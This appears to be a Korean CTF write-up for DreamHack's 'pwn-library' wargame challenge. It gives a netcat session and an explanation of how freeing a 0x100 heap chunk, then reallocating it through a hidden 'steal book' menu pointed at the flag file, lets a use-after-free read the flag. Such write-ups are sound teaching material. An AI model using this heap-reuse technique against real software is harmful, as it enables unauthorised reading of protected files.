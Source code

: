 ```yaml
---
layout: post
subtitle: DreamHack pwn-library
comment: true
tags: [CTF, pwn]
---
```

# [문제](https://dreamhack.io/wargame/challenges/118/writeups)

```ts
$ nc host1.dreamhack.games 24206

[*] Welcome to library!
1. borrow book
2. read book
3. return book
4. exit library
[+] Select menu : 1
[*] Welcome to borrow book menu!
1. theori theory
2. dreamhack theory
3. einstein theory
[+] what book do you want to borrow? : 1
book create complete!
1. borrow book
2. read book
3. return book
4. exit library
[+] Select menu : 3
[*] Welcome to return book menu!
[*] lastest book returned!
1. borrow book
2. read book
3. return book
4. exit library
[+] Select menu : 275
[*] Welcome to steal book menu!
[!] caution. it is illegal!
[+] whatever, where is the book? : /home/pwnlibrary/flag.txt
[*] how many pages?(MAX 400) : 256

[*] (Siren rangs) (Siren rangs)
[*] Oops.. cops take your book..
1. borrow book
2. read book
3. return book
4. exit library
[+] Select menu : 2
[*] Welcome to read book menu!
0 : -----returned-----
[+] what book do you want to read? : 0
[*] book contents below [*]
DH{--------flag-----------}


1. borrow book
2. read book
3. return book
4. exit library
[+] Select menu : 
```


* [참고](https://linarena.github.io/linux_0x07)
UAF취약점을 이용한 문제입니다. 익스플로잇하기 전 단서들을 정리해보면
1. `steal_book`에서 `secretbook.contents`에 얼마나 메모리를 할당할지 결정할 수 있습니다.(단, 0x190 즉 400바이트 이상으로는 할당할 수 없습니다.)
2. `steal_book`에서 어떤 경로의 파일을 열 것인지 결정할 수 있습니다.
3. `burrow_book`에서는 항목 별로 힙에 할당되는 메모리 크기가 `0x100`, `0x200`, `0x300`으로 정해져 있습니다.
4. `return_book`에서는 `burrow_book`에서 할당받은 메모리를 `free`시킬 수 있습니다.
5. `contents`필드의 접근은 `read_book`함수로만 가능합니다.
<br>이를 바탕으로 시나리오를 써 보면 <br>

`read_book`을 이용해야지 `contents`를 읽을 수 있기 때문에, `secretbook.contents`가 할당받는 주소를 `return_book`이 읽을 수 있어야 합니다. 따라서 `burrow_book`을 통해 `0x100`크기의 주소를 할당받고 `return_book`을 통해 `free`시켜줍시다.
그러면 그 chunk(주소)는 `bin` double linked list에 저장되어 추후에 동일한 크기의 할당이 있을 경우 재사용됩니다. 그 후 `steal_book`을 통해 `0x100`(256바이트)크기의 영역을 할당해 `flag`를 읽으면 `bin`리스트 안의 `0x100`크기로 할당받았던 chunk가 재활용되게 됩니다.
`read_book`함수는 이전에 `free`되었던 내용이라도 똑같이 읽기 때문에 이제 플래그를 읽을 수 있습니다.